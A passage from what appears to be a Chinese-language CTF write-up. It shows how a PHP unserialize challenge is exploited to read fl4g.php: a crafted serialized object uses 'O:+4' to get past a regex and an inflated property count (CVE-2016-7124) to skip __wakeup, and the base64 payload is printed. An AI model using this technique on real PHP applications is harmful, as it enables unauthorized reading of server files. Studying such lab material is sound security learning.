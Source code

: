    如上图所示，是一段php代码，进行代码审计，是让我们通过构造var参数，获取fl4g.php文件的内容即可，首先是对var参数进行base64的解码，然后进行反序列化，通过以上知识，直接写php代码运行得到payload：

   ```php
   <?php 
   class Demo { 
       private $file = 'index.php';
       public function __construct($file) { 
           $this->file = $file; 
       }
       function __destruct() { 
           echo @highlight_file($this->file, true); 
       }
       function __wakeup() { 
           if ($this->file != 'index.php') { 
               //the secret is in the fl4g.php
               $this->file = 'index.php'; 
           } 
       } 
   }
       $A = new Demo('fl4g.php');
       $C = serialize($A);
       //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
       $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
       $C = str_replace(':1:', ':2:',$C);//绕过wakeup
       var_dump($C);
       //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
       var_dump(base64_encode($C));
       //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
   ?>
   ```

   其中，4改为+4是为了绕过正则表达式的匹配，:1:改成:2:是利用了CVE-2016-7124的漏洞，即当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行。

   最后得到flag：

   ![image-20210205004953998](images/image-20210205004953998.png)

   
